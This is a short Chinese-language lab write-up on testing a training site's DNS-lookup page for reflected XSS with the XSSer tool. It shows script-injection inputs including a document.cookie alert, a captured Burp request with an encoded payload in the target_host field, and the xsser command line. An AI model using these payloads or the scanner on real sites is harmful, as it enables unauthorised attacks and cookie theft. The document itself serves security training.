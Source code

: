 ![xsser.png](/img/in-post/ine/xsser.png)

首先，为指定的参数生成一个hash值。接着，该hash值会替代payload中的XSS部分。然后，攻击向量是`">PAYLOAD`，接着，将URL中指定参数的值替换为攻击向量。

访问
```
http://demo.ine.local/index.php?page=dns-lookup.php
```
在搜索框中输入`<h1>Hi</h1>`，`<script>alert('XSS');</script>`，`<script>alert(document.cookie)</script>`，可以看到，搜索结果被作为HTML和js代码执行了，说明存在反射性XSS漏洞。

用该工具进行手动验证，需要分析Burp Suite数据包。可以看到，POST参数`target_host`是注入点。

```
POST /index.php?page=dns-lookup.php HTTP/1.1
Host: demo.ine.local
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://demo.ine.local
Connection: close
Referer: http://demo.ine.local/index.php?page=dns-lookup.php
Cookie: PHPSESSID=5209qmpi53s7puacqamuib8c73; showhints=1
Upgrade-Insecure-Requests: 1

target_host=%3Cscript%3Ealert%28%27XSS%27%29%3B%3C%2Fscript%3E&dns-lookup-php-submit-button=Lookup+DNS
```

使用以下命令：

```
xsser -u 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```
